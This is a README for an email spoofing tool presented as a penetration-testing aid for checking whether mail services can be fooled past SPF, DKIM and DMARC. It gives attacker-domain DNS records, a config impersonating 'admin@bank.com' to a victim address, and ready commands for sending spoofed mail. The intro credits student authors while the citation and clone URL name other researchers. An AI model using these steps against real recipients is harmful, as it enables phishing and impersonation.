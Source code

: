 # Email-spoofing-tool

# Introduction

## We have developed this project as part of Digital Forensics. I am Anish and my team member Yashveer singh we are currently pursuing B.Tech in computer Science at KL UNIVERSITY

Email Spoofing tool is an open-source testing tool to bypass SPF, DKIM, and DMARC authentication in email systems. It helps mail server administrators and penetration testers to check whether the target email server and client are vulnerable to email spoofing attacks or can be abused to send spoofing emails.

<!-- ![Gmail spoofing demo](images/gmail-spoofing-demo.png "espoofer demo" )
 -->
<p align="center">
<kbd>
<img src="images/gmail-spoofing-demo.png" height="300">
</kbd>
<br>Figure 1. A case of our spoofing attacks on Gmail (Fixed, <a href="https://youtu.be/xuKZpT0rsd0">Demo video</a>)
</p>

## Why build this tool?

Email spoofing is a big threat to both individuals and organizations ([Yahoo breach](https://arstechnica.com/tech-policy/2017/03/fbi-hints-that-hack-of-semi-privileged-yahoo-employee-led-to-massive-breach/), [John podesta](https://www.cbsnews.com/news/the-phishing-email-that-hacked-the-account-of-john-podesta/)). To address this problem, modern email services and websites employ authentication protocols -- SPF, DKIM, and DMARC -- to prevent email forgery. 

Our latest research shows that the implementation of those protocols suffers a number of security issues, which can be exploited to bypass SPF/DKIM/DMARC protections. Figure 1 demonstrates one of our spoofing attacks to bypass DKIM and DMARC in Gmail. 




In this repo, we summarize all test cases we found and integrate them into this tool to help administrators and security-practitioners quickly identify and locate such security issues.

<details><summary>Please use the following citation if you do scentific research (Click me).  </summary>
<p>

*Latex version:*

```tex
@inproceedings{chen-email,
author = {Jianjun Chen and Vern Paxson and Jian Jiang},
title = {Composition Kills: A Case Study of Email Sender Authentication},
booktitle = {29th {USENIX} Security Symposium ({USENIX} Security 20)},
year = {2020},
isbn = {978-1-939133-17-5},
pages = {2183--2199},
url = {https://www.usenix.org/conference/usenixsecurity20/presentation/chen-jianjun},
publisher = {{USENIX} Association},
month = aug,
}
```

*Word version:*

Jianjun Chen, Vern Paxson, and Jian Jiang. "Composition kills: A case study of email sender authentication." In 29th USENIX Security Symposium (USENIX Security 20), pp. 2183-2199. 2020.

</p>
</details>

## Installation
- Download this tool
```
git clone https://github.com/chenjj/Email-spoofing-tool

```

- Install dependencies
```
sudo pip3 install -r requirements.txt
```
> *Python version: Python 3 (**>=3.7**).*

## Usage
espoofer has three work modes: *server* ('s', default mode), *client* ('c') and *manual* ('m'). In *server* mode, espoofer works like a mail server to test validation in receiving services. In *client* mode, espoofer works as an email client to test validation in sending services. *Manual* mode is used for debug purposes. 

<p align="center">
<img src="images/email-authentication-flow.png" ><br>
Figure 2. Three types of attackers and their work modes
</p>

#### Server mode
To run espoofer in server mode, you need to have: 1) an IP address (`1.2.3.4`), which outgoing port 25 is not blocked by the ISP, and 2) a domain (`attack.com`). 


1. Domain configuration

- Set DKIM public key for `attack.com`

```
selector._domainkey.attacker.com TXT  "v=DKIM1; k=rsa; t=y; p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDNjwdrmp/gcbKLaGQfRZk+LJ6XOWuQXkAOa/lI1En4t4sLuWiKiL6hACqMrsKQ8XfgqN76mmx4CHWn2VqVewFh7QTvshGLywWwrAJZdQ4KTlfR/2EwAlrItndijOfr2tpZRgP0nTY6saktkhQdwrk3U0SZmG7U8L9IPj7ZwPKGvQIDAQAB"
```

- Set SPF record for `attack.com`

```
attack.com TXT "v=spf1 ip4:1.2.3.4 +all"
```

2. Configure the tool in config.py

```
config ={
	"attacker_site": b"attack.com", # attack.com
	"legitimate_site_address": b"admin@bank.com", # legitimate.com
	"victim_address": b"victim@victim.com", # victim@victim.com
	"case_id": b"server_a1", # server_a1
}
```

You can list find the case_id of all test cases using `-l` option:

```
python3 espoofer.py -l
```

3. Run the tool to send a spoofing email

```
python3 espoofer.py
```

You can change case_id in the config.py or use `-id` option in the command line to test different cases:

```
python3 espoofer.py -id server_a1
```

#### Client mode 

To run epsoofer in client mode, you need to have an account on the target email services. This attack exploits the failure of some email services to perform sufficient validation of emails received from local MUAs. For example, `attacker@gmail.com` tries to impersonate `admin@gmail.com`. 
1. Configure the tool in config.py

```
config ={
	"legitimate_site_address": b"admin@gmail.com",  
	"victim_address": b"victim@victim.com", 
	"case_id": b"client_a1",

	"client_mode": {
		"sending_server": ("smtp.gmail.com", 587),  # SMTP sending serve ip and port
		"username": b"attacker@gmail.com", # Your account username and password
		"password": b"your_passward_here",
	},
}
```

You can list find the case_id of all test cases using `-l` option:

```
python3 espoofer.py -l
```

> Note: `sending_server` should be the SMTP sending server address, not the receiving server address.


2. Run the tool to send a spoofing email

```
python3 espoofer.py -m c
```

You can change case_id in the config.py and run it again, or you can use `-id` option in the command line:

```
python3 espoofer.py -m c -id client_a1
```

#### Manual mode

Here is an example of manual mode:

```
python3 espoofer.py -m m -helo attack.com -mfrom <m@attack.com> -rcptto <victim@victim.com> -data raw_msg_here -ip 127.0.0.1 -port 25
```

### Screenshots

1. A brief overview of test cases.

<p align="center">
<kbd>
<img src="images/list_caseid.png">
</kbd>
</p>



Welcome to send a pull request to file your bug report here. 


## Credits

Welcome to add more test cases.



<!-- *This repo is created for the vendors to reproduce our reported issues, so this tool is not useable without additional instructions. We will update it after the affected vendors have fixed our reported bugs.*
 -->
